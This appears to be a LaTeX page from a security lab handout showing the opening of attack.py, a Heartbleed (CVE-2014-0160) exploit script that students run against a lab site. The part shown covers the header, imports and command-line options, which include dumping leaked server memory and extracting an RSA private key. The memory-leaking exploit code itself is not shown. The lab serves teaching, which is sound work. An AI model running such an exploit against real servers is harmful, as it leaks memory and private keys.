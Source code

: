 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{attack.py}
\vspace{1em}
\begin{verbatim}
#!/usr/bin/python

# Code originally from https://gist.github.com/eelsivart/10174134
# Modified by Haichao Zhang
# Last Updated: 2/12/15
# Version 1.20
#
# -added option to the payload length of the heartbeat payload
# Don't forget to "chmod 775 ./attack.py" to make the code executable 
# Students can use eg. "./attack.py www.seedlabelgg.com -l 0x4001" to send the heartbeat request with payload length variable=0x4001
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
import time
import os
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-l', '--length', type='int', default=0x4000,dest="len", help='payload length to test (default: 0x4000)')
options.add_option('-n', '--num', type='int', default=1, help='Number of times to connect/loop (default: 1)')
options.add_option('-s', '--starttls', action="store_true", dest="starttls", help='Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...')
options.add_option('-f', '--filein', type='str', help='Specify input file, line delimited, IPs or hostnames or IP:port or hostname:port')
options.add_option('-v', '--verbose', action="store_true", dest="verbose", help='Enable verbose output')
options.add_option('-x', '--hexdump', action="store_true", dest="hexdump", help='Enable hex output')
options.add_option('-r', '--rawoutfile', type='str', help='Dump the raw memory contents to a file')
options.add_option('-a', '--asciioutfile', type='str', help='Dump the ascii contents to a file')
options.add_option('-d', '--donotdisplay', action="store_true", dest="donotdisplay", help='Do not display returned data on screen')
options.add_option('-e', '--extractkey', action="store_true", dest="extractkey", help='Attempt to extract RSA Private Key, will exit when found. Choosing this enables -d, do not display returned data on screen.')

opts, args = options.parse_args()


\end{verbatim}
\end{document}
